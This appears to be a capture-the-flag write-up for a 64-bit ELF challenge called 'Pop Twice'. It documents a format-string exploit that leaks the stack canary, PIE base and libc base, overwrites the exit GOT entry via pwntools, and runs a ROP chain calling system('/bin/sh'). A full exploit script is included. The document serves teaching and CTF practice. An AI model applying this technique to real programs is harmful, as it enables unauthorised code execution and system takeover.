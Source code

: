 # Pop Twice

The challenge file was given, an elf file checking the file propertise we could see it's a 64-bit ELF file, not stripped.

![](https://cyberguru1.github.io/posts/phoenix/files/1688625170436.png)

let's try running the ELF file

![](https://cyberguru1.github.io/posts/phoenix/files/1688625218436.png)

we could see it ask for input twice and print's out our input to us.

Decompiling the file in ghidra, we could see the decompiled source code:

![](https://cyberguru1.github.io/posts/phoenix/files/1688625411779.png)

from the source code we could conclude that this is not our regular buffer overflow challenge, because for each input to the buffer there's a bound from the `fgets` function, `local_418` size is `512` and the max input is `0x200` which is `512` in decimal, simillar to `local_218`.

The only way to exploit this program is using the fomart string vulnerability, because our input stored in the buffer is printed right back to us.

Before going forward with the exploit let's run checksec on the ELF file to see the security mechanisms enabled on the file.

![](https://cyberguru1.github.io/posts/phoenix/files/1688626124389.png)

we could see that `NX` and `PIE` bit is enabled, meaning we have non executable code in the stack and address layout randomization on the  ELF file respectively, we need to fuzz the ELF file and find some imortant address to bypass the security mechanism.

i wrote a simple bash fuzzer to perform this:

![](https://cyberguru1.github.io/posts/phoenix/files/1688627879663.png)

running it we found the stack canary at index `43`

![](https://cyberguru1.github.io/posts/phoenix/files/1688627999666.png)

we found `PIE` leak at index 139

![](https://cyberguru1.github.io/posts/phoenix/files/1688628475148.png)

How do we know that's the `PIE` leak, this is true because main start at:

![](https://cyberguru1.github.io/posts/phoenix/files/1688628544895.png)

`Libc` leak is found at index 137![](https://cyberguru1.github.io/posts/phoenix/files/1688628727909.png)

having all this offset we could now proced with our exploit.

we could automate this using pwntools:

```python
# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 

```

we could now use the offsets found using gef to readjust the base address of the ELF files;

```python
## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")

```

let's now craft our shell payload to execute `/bin/sh`

```python

pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

```

using the fmtstr vulnerablity payload to reassign the `rip` pointer, we fuzz again to find the offset at which our input is stored on the stack, which is at index `70`,

using the offset we could reassing the `rip` to our payload.

the plan here to exploit this by saving our payload in the stack and running the program again and set our `rip` to where the payload is stored.

**How do we archive this ?**

we start the program and use the fmtstr vulnerability to get all necessay address to bypass the security mechanism, we then set `rip` back to main to run the program again this time we store the payload on the stack, after doing that we set the `rip` back to `pop_rdi_ret ` to run the content stored on the stack.

```python
fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()
```

Getting all this together we have:

```python
#!/usr/bin/python

from os import system
from pwn import *
from struct import pack

## settings
context.binary = exe =  ELF("./chall")


## initializing libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

## spawing process
p = process(exe.path)


s_arr1 = 512 # size of buff1
s_arr2 = 520 # size of buff2

# leaking offsets

canary_leak = "%43$p" # stack canary leak 
pie_leak = "%139$p"   # pie leak
libc_leak = "%137$p"  # libc leak

# sending payload 

p.sendline(canary_leak + " " + pie_leak +  " " +libc_leak)

result = p.recvuntil(b"\n").decode()
canary, pie, libcc = list(map(lambda x: int(x,16), result.split(" "))) 


## reseting the base address
exe.address = pie - 0x1159

log.info(f"base address : {hex(exe.address)}")

libc.address = libcc - 0x2718a  # setting libc address

log.info(f"libc address : {hex(libc.address)}")


pop_rdi_ret = next(libc.search(asm('pop rdi; ret')))

exit_addr = exe.got['exit']

bin_sh = next(libc.search(b'/bin/sh\x00')) 

system_addr = libc.symbols['system']

# crafting payload for system("/bin/sh")

ad_payload = p64(pop_rdi_ret)
ad_payload += p64(bin_sh)
ad_payload += p64(system_addr)

 
# using fmtstring vuln to call main again

fpayload = fmtstr_payload(70, {exit_addr:exe.symbols['main']})


p.send(fpayload)
p.sendline()


# sending the payload to save in first buffer
# for use later

p.send(ad_payload)
p.sendline()

# pointing the exit GOT addr to the payload on the buffer

fpayload = fmtstr_payload(70, {exit_addr:pop_rdi_ret})

p.send(fpayload)
p.sendline()


# gdb.attach(p, f"""b * main+120
#                 init-gef
#                 got
#                 register
#                 c
#                 x/30wgx $rsp
#                 x/s {bin_sh}
#                 x/s {system_addr}
#                 x/i {pop_rdi_ret}""")

p.interactive()





```

Running the script we have our shell :

![](https://cyberguru1.github.io/posts/phoenix/files/1688631576538.png)
